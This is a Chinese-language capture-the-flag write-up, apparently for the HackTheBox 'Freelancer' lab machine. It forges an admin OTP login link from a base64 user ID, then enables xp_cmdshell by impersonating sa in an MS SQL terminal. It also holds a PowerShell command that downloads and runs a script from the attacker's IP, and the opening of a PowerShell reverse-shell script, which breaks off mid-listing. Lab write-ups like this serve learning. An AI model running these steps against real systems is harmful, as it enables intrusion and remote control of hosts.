 ```bash
   [->]DC
   [->]10.10.11.5
[*] WebTitle http://10.10.11.5:5985    code:404 len:315    title:Not Found
[*] WebTitle http://10.10.11.5:47001   code:404 len:315    title:Not Found
[*] WebTitle http://freelancer.htb/    code:200 len:57293  title:Freelancer - Job Board & Hiring platform
已完成 26/26
[*] 扫描结束,耗时: 1m15.097074037s
```

老样子加进 hosts，访问，是个招聘网站，用 dirsearch 一顿扫，结果里面一堆 `/admin` 路由的。
注册了一个 employer 的帐号，密码还不能太简单，登录说没激活，点击忘记密码，重置一次，就能登录了。
有个二维码登录的功能，说用手机扫就能直接登录，随便找个[在线识别网站](https://zxing.org/w/decode.jspx)识别出 `http://freelancer.htb/accounts/login/otp/MTAwMTA=/700a374a3c075b4da499d76a39953af6/`

`MTAwMTA=` base64 解出是 `10010`，猜测是用户的 ID，后面应该是关于时间的凭据。在 Blog 里随便发表一条评论，然后自己的链接就是 `http://freelancer.htb/accounts/profile/visit/10010/` ，那么就八九不离十了，从 1 开始试，发现 `http://freelancer.htb/accounts/profile/visit/2/` 可以访问到，而且 username 是 admin，那么尝试伪造 admin 登录，2 对应 base64 即为 `Mg==`，拼接链接 `http://freelancer.htb/accounts/login/otp/Mg==/700a374a3c075b4da499d76a39953af6/` 成功登录 admin。

登上之后页面和之前差不多，直接进 `/admin` 路由，到了管理页面。一眼看到 SQL Terminal，GPT 说可以用 xp_cmdshell 执行命令，发现没权限

执行如下命令：

```sql
SELECT name AS DatabaseName, suser_sname(owner_sid) AS Owner
FROM sys.databases;
```

可以看到 Owner 全部是 sa，然后模拟 sa 登录，执行如下命令启用 xp_cmdshell：

```sql
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

再

```sql
EXEC xp_cmdshell 'dir'
```

发现命令执行成功。
想弹个 shell，搞着搞着发现 bash 不了，才想起来这是 Windows

```sql
EXECUTE xp_cmdshell 'powershell -c iex(iwr -usebasicparsing http://10.10.16.18/1.ps1)'
```

发现弹了一下就断了，应该是被杀软掐了。
试了很多个都不行，没办法了，用大哥找到的：

```shell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.10.16.18',55555)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
```
